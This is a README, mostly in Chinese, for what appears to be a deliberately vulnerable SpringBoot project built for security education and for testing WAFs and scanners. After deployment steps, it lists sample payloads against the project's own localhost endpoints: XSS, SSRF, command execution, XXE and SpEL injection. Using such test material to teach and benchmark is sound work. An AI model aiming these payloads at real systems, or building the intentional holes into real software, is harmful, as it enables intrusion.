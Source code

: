 ## 项目介绍
- 一个SpringBoot的脚手架，按照教程走下去直接部署到可运行状态.
- A SpringBoot scaffolding for security education purposes.
- 目标：
  - 一站式安全能力评估.

## 以阿里云服务器部署为例
- 按照下面教程部署，总共重新用时10分钟.

### LINUX下运行
```
## 下载基本环境和依赖:

yum install git maven -y
wget https://mirrors.estointernet.in/apache/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.tar.gz
tar -xvf apache-maven-3.6.3-bin.tar.gz
mv apache-maven-3.6.3 /opt/
wget https://download.oracle.com/java/17/latest/jdk-17_linux-x64_bin.tar.gz
tar xf jdk-17_linux-x64_bin.tar.gz
mv jdk-17.0.7/ /usr/lib/jvm


## 更新配置

rm -rf /opt/apache-maven-3.6.3/conf/settings.xml
vi /opt/apache-maven-3.6.3/conf/settings.xml
更新settings.xml源，参考settings这个标题

vi /etc/profile
#set java environment(保存下面信息到/etc/profile末尾)
export M2_HOME='/opt/apache-maven-3.6.3'
export JAVA_HOME=/usr/lib/jvm/jdk-17.0.7
export CLASSPATH=$JAVA_HOME/lib/tools.jar:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib
export PATH=$M2_HOME/bin:$JAVA_HOME/bin:$PATH

source /etc/profile

## 下载文件包
git clone https://github.com/zgimszhd61/java-code-simple.git
cd java-code-simple

## 试编译运行:
mvn install
mvn package

```

### USAGE
```

mvn spring-boot:run

```

### 注意
```

打开的是8080端口，如果用的是阿里云，需要注意安全组允许8080端口被访问
如果想要启动的是80端口，那么pom.xml的配置需改一下

```

### settings.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/SETTINGS/1.0.0"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xsi:schemaLocation="http://maven.apache.org/SETTINGS/1.0.0 http://maven.apache.org/xsd/settings-1.0.0.xsd">

  <mirrors>
    <mirror>
     <id>aliyunmaven</id>
     <mirrorOf>*</mirrorOf>
     <name>阿里云公共仓库</name>
     <url>https://maven.aliyun.com/repository/public</url>
    </mirror>
     <mirror>
     <id>aliyunmaven</id>
     <mirrorOf>*</mirrorOf>
     <name>阿里云谷歌仓库</name>
     <url>https://maven.aliyun.com/repository/google</url>
    </mirror>
    <mirror>
     <id>aliyunmaven</id>
     <mirrorOf>*</mirrorOf>
     <name>阿里云阿帕奇仓库</name>
     <url>https://maven.aliyun.com/repository/apache-snapshots</url>
    </mirror>
    <mirror>
     <id>aliyunmaven</id>
     <mirrorOf>*</mirrorOf>
     <name>阿里云spring仓库</name>
     <url>https://maven.aliyun.com/repository/spring</url>
    </mirror>
    <mirror>
     <id>aliyunmaven</id>
     <mirrorOf>*</mirrorOf>
     <name>阿里云spring插件仓库</name>
     <url>https://maven.aliyun.com/repository/spring-plugin</url>
    </mirror>
   </mirrors>
</settings>
```

## 如果80或8080端口被占用
```

运行 lsof -i:8080 ， 得到PID进程号
kill -9 PID进程号 ，杀掉进程
然后重新运行

```

## 攻击验证API
```agsl

###
GET http://localhost:80/api/xss/bad?name=<script>alert(1)</script>

###
GET http://localhost:80/api/ssrf/bad?url=http://localhost:80/api/xss/bad?name=<script>alert(1)</script>

###
GET http://localhost:80/api/rce/bad02?cmd=ls

###
GET http://localhost:80/api/xxe/bad01?xml=<!DOCTYPE doc [<!ENTITY xxe SYSTEM \"http://127.0.0.1:1664\">]><doc>&xxe;</doc>

###
GET http://localhost:80/api/jsonp/bad01?callback=<script>alert(1)</script>

###
GET http://localhost:80/api/spel/bad01?cmd=vulnhere


```

## 应用场景
- 安全防护产品测试.
  - IDE插件能力测试.
  - WAF能力测试.
  - 白盒扫描能力测试.
  - 黑盒扫描能力测试.
  - IAST扫描能力测试.
  - 供应链安全产品能力测试.
- 人工代码审计学习.


## 更新日志
- 2023-06: 项目初始化，创建ssrf、rce、xss、Helloworld健康检查接口.创建README教程.
- 2023-07-01: 增加反序列化，增加Ognl;
- 2023-07-04: 增加bsh,groovy,mvel,processbuilder,redos,jndi；


## 如何加入共建
- 联系wx:7908300 ，领取任务.
- 或者直接本项目提出issue.

## 下一步计划
- [] 异常报错回显到页面.
- [] 短信验证码无频率控制.
- [] 账号之中邮箱和手机号信息可通过1+1+1枚举.
- [] 开源许可证违规风险还原.
- [] 常用高Star供应链CVE漏洞还原.
- [] 不安全的加密算法（如静态盐salt).
- [] 创建其他分支:AndroidApp常见漏洞benchmark,pythonApp常见漏洞benchmark,BunApp常见漏洞benchmark,IosApp常见漏洞Benchmark，并提供索引.

## 其他同类项目
- https://github.com/snoopysecurity/Vulnerable-Code-Snippets
- https://github.com/JoyChou93/java-sec-code
- https://github.com/j3ers3/Hello-Java-Sec
- https://github.com/github/codeql
- https://github.com/proudwind/javasec_study
- https://github.com/threedr3am/learnjavabug
